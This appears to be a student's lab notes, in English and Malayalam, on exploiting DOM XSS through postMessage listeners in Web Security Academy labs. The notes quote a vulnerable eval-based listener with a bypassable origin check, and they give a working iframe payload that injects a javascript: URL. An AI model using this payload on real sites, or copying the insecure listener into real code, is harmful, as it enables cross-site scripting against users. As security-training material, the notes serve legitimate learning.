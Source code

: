 	        window.addEventListener('message', function(e) {
                    if (e.origin.endsWith('normal-website.com')) { 
                          eval(e.data); 
                          } 
	        });
-->the following event listener would regard the origin `http://www.malicious-websitenormal-website.com` as safe.

==============================================================

              Lab-3(DOM XSS using web messages and JSON.parse)
-->ividem namal home page il view-source adikuka apol js code kanam :

        <script>
            window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = 
                                                    {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);             --1)
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                }, false);
        </script>

-->This event listener expects a string that is parsed using `JSON.parse()`  -1) nok.
-->When the `iframe` we constructed loads, the `postMessage()` method sends a web message to the home page with the type `load-channel`
-->The event listener receives the message and parses it using `JSON.parse()` before sending it to the `switch`.
-->ivide ulla switch il load-channel enna case aan trigger aakuka,which assigns the `url` property of the message to the `src` attribute of the `ACMEplayer.element` `iframe`. so ee sthalathan namuk venda javascript payload kodukam like xss
-->ividem evenListerner origin check chyunila
-->**PAYLOAD** :
          `<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

-->ith entho regex oke use chyunathanen thonunu manasilakunila

==============================================================
